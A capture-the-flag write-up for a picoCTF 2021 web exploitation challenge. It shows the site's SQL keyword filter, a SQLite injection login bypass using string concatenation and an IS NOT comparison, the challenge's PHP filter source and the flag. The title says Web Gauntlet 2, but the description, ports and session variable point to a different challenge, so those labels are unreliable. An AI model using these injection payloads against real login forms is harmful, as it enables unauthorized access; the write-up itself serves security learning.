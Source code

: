 # Web Gauntlet 2

## Information

- picoCTF 2021
- Web Exploitation
- 300 Points

## Description

If the flag is not displayed after completing this challenge, try clearing your cookies. Cookies set by other challenges may prevent the flag from displaying properly.

Last time, I promise! Only 25 characters this time. Log in as admin Site: http://mercury.picoctf.net:29772/ Filter: http://mercury.picoctf.net:29772/filter.php

## Hints

1. Each filter is separated by a space. Spaces are not filtered.

2. There is only 1 round this time, when you beat it the flag will be in filter.php.

3. sqlite

## Solution

Visting http://mercury.picoctf.net:26215/ gives us a sign in form similar to [Web Gauntlet](/web-exploitation/web-gauntlet/web-gauntlet.md) and [Web Gauntlet 2](/web-exploitation/web-gauntlet-2/web-gauntlet-2.md) .

![initial](images/initial.PNG)

In `filter.php`, we can see what the sign in form filters.

```
Filters: or and true false union like = > < ; -- /* */ admin
```

We can use the same username and password from Web Gauntlet 2 in this challenge.

```
Username: ad'||'min
Password: A' IS NOT 'B
```

Go to `filter.php` and the flag should be at the bottom.

```php
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_30593712914d76105748604617f4006a}
?>
```

## Flag

picoCTF{k3ep_1t_sh0rt_30593712914d76105748604617f4006a}
